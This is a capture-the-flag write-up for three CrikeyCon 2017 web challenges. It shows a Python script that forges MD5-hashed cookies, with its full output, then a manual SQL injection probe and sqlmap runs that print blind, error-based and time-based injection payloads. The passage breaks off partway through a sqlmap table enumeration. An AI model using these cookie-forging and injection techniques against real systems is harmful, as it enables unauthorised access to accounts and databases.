 # CTF-Writeups

## CrikeyConCTF Crapto Locker (100pts)

The following web page was left by a hacker, who is using ransomware to hold my web site hostage. I am a poor student and can't affort to pay the ransom. Can you help?

http://ctf.crikeycon.com:1234
The 1st step of this challenge is to identify the hacker.
Submit the flag as: flag{hacker_handle}



Source Code
=======================================

HTTP/1.1 200 OK
Date: Wed, 22 Mar 2017 12:27:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Fri, 17 Feb 2017 09:23:36 GMT
ETag: "26d-548b677e60abe"
Accept-Ranges: bytes
Content-Length: 621
Vary: Accept-Encoding
Connection: close
Content-Type: text/html

<html><head></style><audio autoplay loop><source src="./Saw theme song.mp3" type="audio/mpeg"></audio>
<title>Cr@pT0l0cK3r</title></head><body background="./matrix-animated-image.gif"></body><center><h1 style=color:red;>U h@v3 b33n h1T by Cr@pT0l0cK3r!</h1><h2 style=color:green;>P@y 1.337 dr0pco1ns 2 @cc0unT: 5318008 1n 1 w33k t0 g3T ur d@T@z b@cK!</h4><img  src="./Hacker.png"><h3 style=color:grey; >*****i l0cK3d ur cr@p******</h1><p style=color:grey; >Gr33Tz to--> TrumpLuV3r, m0l3z, s1Lv10, k0aLaz, Joey Jojo Jr Shabadoo, Team-Barbie, Team Blue Ballz, ASD </p></center><!-- Page made by dr0ppyb3@r_h@ck3r -></html>



flag{dr0ppyb3@r_h@ck3r}



## CrikeyConCTF Koala Web Challenge (200pts)

Get the flag from this fine collection of bears.

http://ctf.crikeycon.com:8001


GET / HTTP/1.1
Host: ctf.crikeycon.com:8001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Cookie: session=.eJwNz0FrgzAUwPGvMt7Zg0a9CIN1yyYWXsQuJbzc7HTVF2OhZaSk9LvP05_f8f-AfvDzCtVvv9zGBOYBqiwrElgv688I1QNeTlAByk5Yfp-JD94aKpB3GXGXIp9LlBOTIUGmK1DsudWYElOpDKZWYrSaAmrMW7kspF2pJObWd3esG6HiuSB_DG39GYh3gvSXt1o5jPsJa-vQKG5Nk6l4LFvpctJN2BqUbkry1pFQk6oPvPmO7KKV9ArPBP5u43Xt_TYAmcrfPq6XMHxP87gM8PwHo-ZOmQ.C7Nn6A.CbLr-jbU3clK_zeFZZVfeN5GvhM; KoalaCookie=9f9d51bc70ef21ca5c14f307980a29d8
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

HTTP/1.1 200 OK
Date: Wed, 22 Mar 2017 02:16:45 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: KoalaCookie=527bd5b5d689e2c32ae974c6229ff785
Vary: Accept-Encoding
Content-Length: 901
Connection: close
Content-Type: text/html; charset=UTF-8

<html>
<body>
<center>
<h2>Koala Gallery</h2>
<img src="bob.jpg" alt="Bob" style="width:250px;height:250px;">
<img src="dave.jpg" alt="Dave" style="width:250px;height:250px;">
<img src="jane.jpg" alt="Jane" style="width:250px;height:250px;">
<img src="tony.jpg" alt="Tony" style="width:250px;height:250px;">
<p>
<img src="sarah.jpg" alt="Sarah" style="width:250px;height:250px;">
<img src="mary.jpg" alt="Mary" style="width:250px;height:250px;">
<img src="frank.jpg" alt="Frank" style="width:250px;height:250px;">
<img src="droppy.jpg" alt="Droppy" style="width:250px;height:250px;">
<p>
<img src="laura.jpg" alt="Laura" style="width:250px;height:250px;">
<img src="john.jpg" alt="John" style="width:250px;height:250px;">
<img src="emma.jpg" alt="Emma" style="width:250px;height:250px;">
<img src="carl.jpg" alt="Carl" style="width:250px;height:250px;">
</center>
</body>
</html>




root@blackhat:/pentest/lists/passwords# echo "bob" | md5sum
e01096b9ffe3f416157f6ec46c467725  -




### CrikeyCon CTF Koala Gallery Exploit by 1N3@CrowdShield
### https://crowdshield.com 

import hashlib
import requests
import time

name = [ "bob", "dave", "jane", "tony", "sarah", "mary", "frank", "droppy", "laura", "john", "emma", "carl" ]
num = len(name)

target = open("/tmp/hash.out", 'w')
target.truncate()

for i in range(num):
    print name[i]+ " = " + (hashlib.md5(name[i].encode('utf-8')).hexdigest())
    target.write(hashlib.md5(name[i].encode('utf-8')).hexdigest())
    target.write("\n")
    print "===================================== >"
    print "GET http://ctf.crikeycon.com:8001 HTTP/1.1"
    print "Host: ctf.crikeycon.com"
    cookie=(hashlib.md5(name[i].encode('utf-8')).hexdigest())
    print "Cookie: KoalaCookie=" +cookie
    cookies = dict(KoalaCookie=cookie)
    req = requests.get("http://ctf.crikeycon.com:8001/", cookies=cookies)
    print (req.request.headers)
    print "< ====================================="
    print (req.headers)
    print "< ====================================="
    print(req.text)
    print "\n\n"
    if 'flag' in req.text:
        print "Success!"
        break
        exit
    else:
        print "No flag found."
    print "\n\n\n\n"
    time.sleep(3)
    






root@blackhat:/pentest/development/python# python md5sum.py 
bob = 9f9d51bc70ef21ca5c14f307980a29d8
=====================================>
GET http://ctf.crikeycon.com:8001 HTTP/1.1
Host: ctf.crikeycon.com
Cookie: KoalaCookie=9f9d51bc70ef21ca5c14f307980a29d8
{'Connection': 'keep-alive', 'Cookie': 'KoalaCookie=9f9d51bc70ef21ca5c14f307980a29d8', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'User-Agent': 'python-requests/2.13.0'}
<=====================================
{'Content-Length': '244', 'Content-Encoding': 'gzip', 'Set-Cookie': 'KoalaCookie=5844a15e76563fedd11840fd6f40ea7b', 'Vary': 'Accept-Encoding', 'Keep-Alive': 'timeout=5, max=100', 'Server': 'Apache/2.4.18 (Ubuntu)', 'Connection': 'Keep-Alive', 'Date': 'Thu, 23 Mar 2017 06:34:37 GMT', 'Content-Type': 'text/html; charset=UTF-8'}
<=====================================
<html>
<body>
<center>
<h2>Koala Gallery</h2>
<img src="bob.jpg" alt="Bob" style="width:250px;height:250px;">
<img src="dave.jpg" alt="Dave" style="width:250px;height:250px;">
<img src="jane.jpg" alt="Jane" style="width:250px;height:250px;">
<img src="tony.jpg" alt="Tony" style="width:250px;height:250px;">
<p>
<img src="sarah.jpg" alt="Sarah" style="width:250px;height:250px;">
<img src="mary.jpg" alt="Mary" style="width:250px;height:250px;">
<img src="frank.jpg" alt="Frank" style="width:250px;height:250px;">
<img src="droppy.jpg" alt="Droppy" style="width:250px;height:250px;">
<p>
<img src="laura.jpg" alt="Laura" style="width:250px;height:250px;">
<img src="john.jpg" alt="John" style="width:250px;height:250px;">
<img src="emma.jpg" alt="Emma" style="width:250px;height:250px;">
<img src="carl.jpg" alt="Carl" style="width:250px;height:250px;">
</center>
</body>
</html>




No flag found.





dave = 1610838743cc90e3e4fdda748282d9b8
=====================================>
GET http://ctf.crikeycon.com:8001 HTTP/1.1
Host: ctf.crikeycon.com
Cookie: KoalaCookie=1610838743cc90e3e4fdda748282d9b8
{'Connection': 'keep-alive', 'Cookie': 'KoalaCookie=1610838743cc90e3e4fdda748282d9b8', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'User-Agent': 'python-requests/2.13.0'}
<=====================================
{'Content-Length': '244', 'Content-Encoding': 'gzip', 'Set-Cookie': 'KoalaCookie=9f9d51bc70ef21ca5c14f307980a29d8', 'Vary': 'Accept-Encoding', 'Keep-Alive': 'timeout=5, max=100', 'Server': 'Apache/2.4.18 (Ubuntu)', 'Connection': 'Keep-Alive', 'Date': 'Thu, 23 Mar 2017 06:34:40 GMT', 'Content-Type': 'text/html; charset=UTF-8'}
<=====================================
<html>
<body>
<center>
<h2>Koala Gallery</h2>
<img src="bob.jpg" alt="Bob" style="width:250px;height:250px;">
<img src="dave.jpg" alt="Dave" style="width:250px;height:250px;">
<img src="jane.jpg" alt="Jane" style="width:250px;height:250px;">
<img src="tony.jpg" alt="Tony" style="width:250px;height:250px;">
<p>
<img src="sarah.jpg" alt="Sarah" style="width:250px;height:250px;">
<img src="mary.jpg" alt="Mary" style="width:250px;height:250px;">
<img src="frank.jpg" alt="Frank" style="width:250px;height:250px;">
<img src="droppy.jpg" alt="Droppy" style="width:250px;height:250px;">
<p>
<img src="laura.jpg" alt="Laura" style="width:250px;height:250px;">
<img src="john.jpg" alt="John" style="width:250px;height:250px;">
<img src="emma.jpg" alt="Emma" style="width:250px;height:250px;">
<img src="carl.jpg" alt="Carl" style="width:250px;height:250px;">
</center>
</body>
</html>




No flag found.





jane = 5844a15e76563fedd11840fd6f40ea7b
=====================================>
GET http://ctf.crikeycon.com:8001 HTTP/1.1
Host: ctf.crikeycon.com
Cookie: KoalaCookie=5844a15e76563fedd11840fd6f40ea7b
{'Connection': 'keep-alive', 'Cookie': 'KoalaCookie=5844a15e76563fedd11840fd6f40ea7b', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'User-Agent': 'python-requests/2.13.0'}
<=====================================
{'Content-Length': '244', 'Content-Encoding': 'gzip', 'Set-Cookie': 'KoalaCookie=1610838743cc90e3e4fdda748282d9b8', 'Vary': 'Accept-Encoding', 'Keep-Alive': 'timeout=5, max=100', 'Server': 'Apache/2.4.18 (Ubuntu)', 'Connection': 'Keep-Alive', 'Date': 'Thu, 23 Mar 2017 06:34:44 GMT', 'Content-Type': 'text/html; charset=UTF-8'}
<=====================================
<html>
<body>
<center>
<h2>Koala Gallery</h2>
<img src="bob.jpg" alt="Bob" style="width:250px;height:250px;">
<img src="dave.jpg" alt="Dave" style="width:250px;height:250px;">
<img src="jane.jpg" alt="Jane" style="width:250px;height:250px;">
<img src="tony.jpg" alt="Tony" style="width:250px;height:250px;">
<p>
<img src="sarah.jpg" alt="Sarah" style="width:250px;height:250px;">
<img src="mary.jpg" alt="Mary" style="width:250px;height:250px;">
<img src="frank.jpg" alt="Frank" style="width:250px;height:250px;">
<img src="droppy.jpg" alt="Droppy" style="width:250px;height:250px;">
<p>
<img src="laura.jpg" alt="Laura" style="width:250px;height:250px;">
<img src="john.jpg" alt="John" style="width:250px;height:250px;">
<img src="emma.jpg" alt="Emma" style="width:250px;height:250px;">
<img src="carl.jpg" alt="Carl" style="width:250px;height:250px;">
</center>
</body>
</html>




No flag found.





tony = ddc5f5e86d2f85e1b1ff763aff13ce0a
=====================================>
GET http://ctf.crikeycon.com:8001 HTTP/1.1
Host: ctf.crikeycon.com
Cookie: KoalaCookie=ddc5f5e86d2f85e1b1ff763aff13ce0a
{'Connection': 'keep-alive', 'Cookie': 'KoalaCookie=ddc5f5e86d2f85e1b1ff763aff13ce0a', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'User-Agent': 'python-requests/2.13.0'}
<=====================================
{'Content-Length': '244', 'Content-Encoding': 'gzip', 'Set-Cookie': 'KoalaCookie=527bd5b5d689e2c32ae974c6229ff785', 'Vary': 'Accept-Encoding', 'Keep-Alive': 'timeout=5, max=100', 'Server': 'Apache/2.4.18 (Ubuntu)', 'Connection': 'Keep-Alive', 'Date': 'Thu, 23 Mar 2017 06:34:47 GMT', 'Content-Type': 'text/html; charset=UTF-8'}
<=====================================
<html>
<body>
<center>
<h2>Koala Gallery</h2>
<img src="bob.jpg" alt="Bob" style="width:250px;height:250px;">
<img src="dave.jpg" alt="Dave" style="width:250px;height:250px;">
<img src="jane.jpg" alt="Jane" style="width:250px;height:250px;">
<img src="tony.jpg" alt="Tony" style="width:250px;height:250px;">
<p>
<img src="sarah.jpg" alt="Sarah" style="width:250px;height:250px;">
<img src="mary.jpg" alt="Mary" style="width:250px;height:250px;">
<img src="frank.jpg" alt="Frank" style="width:250px;height:250px;">
<img src="droppy.jpg" alt="Droppy" style="width:250px;height:250px;">
<p>
<img src="laura.jpg" alt="Laura" style="width:250px;height:250px;">
<img src="john.jpg" alt="John" style="width:250px;height:250px;">
<img src="emma.jpg" alt="Emma" style="width:250px;height:250px;">
<img src="carl.jpg" alt="Carl" style="width:250px;height:250px;">
</center>
</body>
</html>




No flag found.





sarah = 9e9d7a08e048e9d604b79460b54969c3
=====================================>
GET http://ctf.crikeycon.com:8001 HTTP/1.1
Host: ctf.crikeycon.com
Cookie: KoalaCookie=9e9d7a08e048e9d604b79460b54969c3
{'Connection': 'keep-alive', 'Cookie': 'KoalaCookie=9e9d7a08e048e9d604b79460b54969c3', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'User-Agent': 'python-requests/2.13.0'}
<=====================================
{'Content-Length': '244', 'Content-Encoding': 'gzip', 'Set-Cookie': 'KoalaCookie=5844a15e76563fedd11840fd6f40ea7b', 'Vary': 'Accept-Encoding', 'Keep-Alive': 'timeout=5, max=100', 'Server': 'Apache/2.4.18 (Ubuntu)', 'Connection': 'Keep-Alive', 'Date': 'Thu, 23 Mar 2017 06:34:51 GMT', 'Content-Type': 'text/html; charset=UTF-8'}
<=====================================
<html>
<body>
<center>
<h2>Koala Gallery</h2>
<img src="bob.jpg" alt="Bob" style="width:250px;height:250px;">
<img src="dave.jpg" alt="Dave" style="width:250px;height:250px;">
<img src="jane.jpg" alt="Jane" style="width:250px;height:250px;">
<img src="tony.jpg" alt="Tony" style="width:250px;height:250px;">
<p>
<img src="sarah.jpg" alt="Sarah" style="width:250px;height:250px;">
<img src="mary.jpg" alt="Mary" style="width:250px;height:250px;">
<img src="frank.jpg" alt="Frank" style="width:250px;height:250px;">
<img src="droppy.jpg" alt="Droppy" style="width:250px;height:250px;">
<p>
<img src="laura.jpg" alt="Laura" style="width:250px;height:250px;">
<img src="john.jpg" alt="John" style="width:250px;height:250px;">
<img src="emma.jpg" alt="Emma" style="width:250px;height:250px;">
<img src="carl.jpg" alt="Carl" style="width:250px;height:250px;">
</center>
</body>
</html>




No flag found.





mary = b8e7be5dfa2ce0714d21dcfc7d72382c
=====================================>
GET http://ctf.crikeycon.com:8001 HTTP/1.1
Host: ctf.crikeycon.com
Cookie: KoalaCookie=b8e7be5dfa2ce0714d21dcfc7d72382c
{'Connection': 'keep-alive', 'Cookie': 'KoalaCookie=b8e7be5dfa2ce0714d21dcfc7d72382c', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'User-Agent': 'python-requests/2.13.0'}
<=====================================
{'Content-Length': '244', 'Content-Encoding': 'gzip', 'Set-Cookie': 'KoalaCookie=9e9d7a08e048e9d604b79460b54969c3', 'Vary': 'Accept-Encoding', 'Keep-Alive': 'timeout=5, max=100', 'Server': 'Apache/2.4.18 (Ubuntu)', 'Connection': 'Keep-Alive', 'Date': 'Thu, 23 Mar 2017 06:34:54 GMT', 'Content-Type': 'text/html; charset=UTF-8'}
<=====================================
<html>
<body>
<center>
<h2>Koala Gallery</h2>
<img src="bob.jpg" alt="Bob" style="width:250px;height:250px;">
<img src="dave.jpg" alt="Dave" style="width:250px;height:250px;">
<img src="jane.jpg" alt="Jane" style="width:250px;height:250px;">
<img src="tony.jpg" alt="Tony" style="width:250px;height:250px;">
<p>
<img src="sarah.jpg" alt="Sarah" style="width:250px;height:250px;">
<img src="mary.jpg" alt="Mary" style="width:250px;height:250px;">
<img src="frank.jpg" alt="Frank" style="width:250px;height:250px;">
<img src="droppy.jpg" alt="Droppy" style="width:250px;height:250px;">
<p>
<img src="laura.jpg" alt="Laura" style="width:250px;height:250px;">
<img src="john.jpg" alt="John" style="width:250px;height:250px;">
<img src="emma.jpg" alt="Emma" style="width:250px;height:250px;">
<img src="carl.jpg" alt="Carl" style="width:250px;height:250px;">
</center>
</body>
</html>




No flag found.





frank = 26253c50741faa9c2e2b836773c69fe6
=====================================>
GET http://ctf.crikeycon.com:8001 HTTP/1.1
Host: ctf.crikeycon.com
Cookie: KoalaCookie=26253c50741faa9c2e2b836773c69fe6
{'Connection': 'keep-alive', 'Cookie': 'KoalaCookie=26253c50741faa9c2e2b836773c69fe6', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'User-Agent': 'python-requests/2.13.0'}
<=====================================
{'Content-Length': '244', 'Content-Encoding': 'gzip', 'Set-Cookie': 'KoalaCookie=527bd5b5d689e2c32ae974c6229ff785', 'Vary': 'Accept-Encoding', 'Keep-Alive': 'timeout=5, max=100', 'Server': 'Apache/2.4.18 (Ubuntu)', 'Connection': 'Keep-Alive', 'Date': 'Thu, 23 Mar 2017 06:34:58 GMT', 'Content-Type': 'text/html; charset=UTF-8'}
<=====================================
<html>
<body>
<center>
<h2>Koala Gallery</h2>
<img src="bob.jpg" alt="Bob" style="width:250px;height:250px;">
<img src="dave.jpg" alt="Dave" style="width:250px;height:250px;">
<img src="jane.jpg" alt="Jane" style="width:250px;height:250px;">
<img src="tony.jpg" alt="Tony" style="width:250px;height:250px;">
<p>
<img src="sarah.jpg" alt="Sarah" style="width:250px;height:250px;">
<img src="mary.jpg" alt="Mary" style="width:250px;height:250px;">
<img src="frank.jpg" alt="Frank" style="width:250px;height:250px;">
<img src="droppy.jpg" alt="Droppy" style="width:250px;height:250px;">
<p>
<img src="laura.jpg" alt="Laura" style="width:250px;height:250px;">
<img src="john.jpg" alt="John" style="width:250px;height:250px;">
<img src="emma.jpg" alt="Emma" style="width:250px;height:250px;">
<img src="carl.jpg" alt="Carl" style="width:250px;height:250px;">
</center>
</body>
</html>




No flag found.





droppy = d21e15ab5a164b251d09e315893946b4
=====================================>
GET http://ctf.crikeycon.com:8001 HTTP/1.1
Host: ctf.crikeycon.com
Cookie: KoalaCookie=d21e15ab5a164b251d09e315893946b4
{'Connection': 'keep-alive', 'Cookie': 'KoalaCookie=d21e15ab5a164b251d09e315893946b4', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'User-Agent': 'python-requests/2.13.0'}
<=====================================
{'Content-Length': '267', 'Content-Encoding': 'gzip', 'Set-Cookie': 'KoalaCookie=00a809937eddc44521da9521269e75c6', 'Vary': 'Accept-Encoding', 'Keep-Alive': 'timeout=5, max=100', 'Server': 'Apache/2.4.18 (Ubuntu)', 'Connection': 'Keep-Alive', 'Date': 'Thu, 23 Mar 2017 06:35:01 GMT', 'Content-Type': 'text/html; charset=UTF-8'}
<=====================================
Koala Gallery - flag{dr0ppy_the_dr0pb34r}<html>
<body>
<center>
<h2>Koala Gallery</h2>
<img src="bob.jpg" alt="Bob" style="width:250px;height:250px;">
<img src="dave.jpg" alt="Dave" style="width:250px;height:250px;">
<img src="jane.jpg" alt="Jane" style="width:250px;height:250px;">
<img src="tony.jpg" alt="Tony" style="width:250px;height:250px;">
<p>
<img src="sarah.jpg" alt="Sarah" style="width:250px;height:250px;">
<img src="mary.jpg" alt="Mary" style="width:250px;height:250px;">
<img src="frank.jpg" alt="Frank" style="width:250px;height:250px;">
<img src="droppy.jpg" alt="Droppy" style="width:250px;height:250px;">
<p>
<img src="laura.jpg" alt="Laura" style="width:250px;height:250px;">
<img src="john.jpg" alt="John" style="width:250px;height:250px;">
<img src="emma.jpg" alt="Emma" style="width:250px;height:250px;">
<img src="carl.jpg" alt="Carl" style="width:250px;height:250px;">
</center>
</body>
</html>




Success!




flag{dr0ppy_the_dr0pb34r}





## CrikeyConCTF Eyeless Web Challenge (200pts)

Retrieve the admin password

http://ctf.crikeycon.com:8003


SQLi Fuzzing
========================================

POST / HTTP/1.1
Host: ctf.crikeycon.com:8003
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://ctf.crikeycon.com:8003/
Cookie: connect.sid=s%3A2K6sIvSsPyc0M8W96l0DrFXiJkW1mGQd.vp9sSrmQ6NlXc2ymNkcqywsOjO9JKHEF1evVc0mwofI; session=.eJwVz1FrgzAUBeC_Mu6zD5q6F6GwslqxcCO6diF5s42ruSYWWkZNSv_7stdzPg6cJ_TamRmKn97ehwSMhiLL8gTm63weoHjC2wkKkG5vOZMPrFqmXOcagV66ncHQTcq1XtExV9QGvi09ujpFUaYYphxFNKRJUmcb0TmkyyJZtKL1Mlw8sh2hwIWHTaoOE5OhzWTYeNxiyql-j54p-p7iDnE6MiXK_D9rqnppqpJJV6-k4LGzIz-MRtF5Da8Efu_Dbe5dPAAZX3183q4P_TWawWp4_QEENVCR.C7P7fw.9gp4AAialH1yX46-_g4QXofF2Gc
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

username=%27&password=&login=Submit+Query

HTTP/1.1 200 OK
Date: Wed, 22 Mar 2017 12:13:01 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 167
Connection: close
Content-Type: text/html; charset=UTF-8

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''' AND password = ''' at line 1






SQLMap
========================================

root@blackhat:~# sqlmap -u 'http://ctf.crikeycon.com:8003/' --data='username=%27&password=&login=Submit+Query' --risk=1 --cookie='connect.sid=s%3A2K6sIvSsPyc0M8W96l0DrFXiJkW1mGQd.vp9sSrmQ6NlXc2ymNkcqywsOjO9JKHEF1evVc0mwofI;session=.eJwVz1FrgzAUBeC_Mu6zD5q6F6GwslqxcCO6diF5s42ruSYWWkZNSv_7stdzPg6cJ_TamRmKn97ehwSMhiLL8gTm63weoHjC2wkKkG5vOZMPrFqmXOcagV66ncHQTcq1XtExV9QGvi09ujpFUaYYphxFNKRJUmcb0TmkyyJZtKL1Mlw8sh2hwIWHTaoOE5OhzWTYeNxiyql-j54p-p7iDnE6MiXK_D9rqnppqpJJV6-k4LGzIz-MRtF5Da8Efu_Dbe5dPAAZX3183q4P_TWawWp4_QEENVCR.C7P7fw.9gp4AAialH1yX46-_g4QXofF2G;'
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.1.2#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:14:49

[22:14:49] [WARNING] it appears that you have provided tainted parameter values ('username='') with most probably leftover chars/statements from manual SQL injection test(s). Please, always use only valid parameter values so sqlmap could be able to run properly
are you really sure that you want to continue (sqlmap could have problems)? [y/N] y
[22:14:56] [WARNING] provided value for parameter 'password' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[22:14:56] [INFO] resuming back-end DBMS 'mysql' 
[22:14:56] [INFO] testing connection to the target URL
[22:14:57] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: password (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: password=-2518' OR 9960=9960#&login=login=&username=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: password=' OR (SELECT 1455 FROM(SELECT COUNT(*),CONCAT(0x7170767071,(SELECT (ELT(1455=1455,1))),0x717a7a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- DWAo&login=login=&username=

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: password=' OR SLEEP(5)-- NGfN&login=login=&username=
---
[22:14:57] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[22:14:57] [INFO] fetched data logged to text files under '/root/.sqlmap/output/ctf.crikeycon.com'

[*] shutting down at 22:14:57




root@blackhat:~# sqlmap -u 'http://ctf.crikeycon.com:8003/' --data='username=%27&password=&login=Submit+Query' --risk=1 --cookie='connect.sid=s%3A2K6sIvSsPyc0M8W96l0DrFXiJkW1mGQd.vp9sSrmQ6NlXc2ymNkcqywsOjO9JKHEF1evVc0mwofI;session=.eJwVz1FrgzAUBeC_Mu6zD5q6F6GwslqxcCO6diF5s42ruSYWWkZNSv_7stdzPg6cJ_TamRmKn97ehwSMhiLL8gTm63weoHjC2wkKkG5vOZMPrFqmXOcagV66ncHQTcq1XtExV9QGvi09ujpFUaYYphxFNKRJUmcb0TmkyyJZtKL1Mlw8sh2hwIWHTaoOE5OhzWTYeNxiyql-j54p-p7iDnE6MiXK_D9rqnppqpJJV6-k4LGzIz-MRtF5Da8Efu_Dbe5dPAAZX3183q4P_TWawWp4_QEENVCR.C7P7fw.9gp4AAialH1yX46-_g4QXofF2G;' --dbs
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.1.2#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:15:38

[22:15:38] [WARNING] it appears that you have provided tainted parameter values ('username='') with most probably leftover chars/statements from manual SQL injection test(s). Please, always use only valid parameter values so sqlmap could be able to run properly
are you really sure that you want to continue (sqlmap could have problems)? [y/N] y
[22:15:39] [WARNING] provided value for parameter 'password' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[22:15:39] [INFO] resuming back-end DBMS 'mysql' 
[22:15:39] [INFO] testing connection to the target URL
[22:15:55] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: password (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: password=-2518' OR 9960=9960#&login=login=&username=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: password=' OR (SELECT 1455 FROM(SELECT COUNT(*),CONCAT(0x7170767071,(SELECT (ELT(1455=1455,1))),0x717a7a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- DWAo&login=login=&username=

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: password=' OR SLEEP(5)-- NGfN&login=login=&username=
---
[22:15:55] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[22:15:55] [INFO] fetching database names
[22:15:55] [INFO] the SQL query used returns 5 entries
[22:15:55] [INFO] resumed: information_schema
[22:15:55] [INFO] resumed: ctf
[22:15:55] [INFO] resumed: mysql
[22:15:55] [INFO] resumed: performance_schema
[22:15:55] [INFO] resumed: sys
available databases [5]:
[*] ctf
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

[22:15:55] [INFO] fetched data logged to text files under '/root/.sqlmap/output/ctf.crikeycon.com'

[*] shutting down at 22:15:55





root@blackhat:~# sqlmap -u 'http://ctf.crikeycon.com:8003/' --data='username=%27&password=&login=Submit+Query' --risk=1 --cookie='connect.sid=s%3A2K6sIvSsPyc0M8W96l0DrFXiJkW1mGQd.vp9sSrmQ6NlXc2ymNkcqywsOjO9JKHEF1evVc0mwofI;session=.eJwVz1FrgzAUBeC_Mu6zD5q6F6GwslqxcCO6diF5s42ruSYWWkZNSv_7stdzPg6cJ_TamRmKn97ehwSMhiLL8gTm63weoHjC2wkKkG5vOZMPrFqmXOcagV66ncHQTcq1XtExV9QGvi09ujpFUaYYphxFNKRJUmcb0TmkyyJZtKL1Mlw8sh2hwIWHTaoOE5OhzWTYeNxiyql-j54p-p7iDnE6MiXK_D9rqnppqpJJV6-k4LGzIz-MRtF5Da8Efu_Dbe5dPAAZX3183q4P_TWawWp4_QEENVCR.C7P7fw.9gp4AAialH1yX46-_g4QXofF2G;' -D ctf --tables
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.1.2#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 22:16:24

[22:16:24] [WARNING] it appears that you have provided tainted parameter values ('username='') with most probably leftover chars/statements from manual SQL injection test(s). Please, always use only valid parameter values so sqlmap could be able to run properly
are you really sure that you want to continue (sqlmap could have problems)? [y/N] y
[22:16:25] [WARNING] provided value for parameter 'password' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[22:16:25] [INFO] resuming back-end DBMS 'mysql' 
[22:16:25] [INFO] testing connection to the target URL
[22:16:26] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: password (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: password=-2518' OR 9960=9960#&login=login=&username=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: password=' OR (SELECT 1455 FROM(SELECT COUNT(*),CONCAT(0x7170767071,(SELECT (ELT(1455=1455,1))),0x717a7a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- DWAo&login=login=&username=

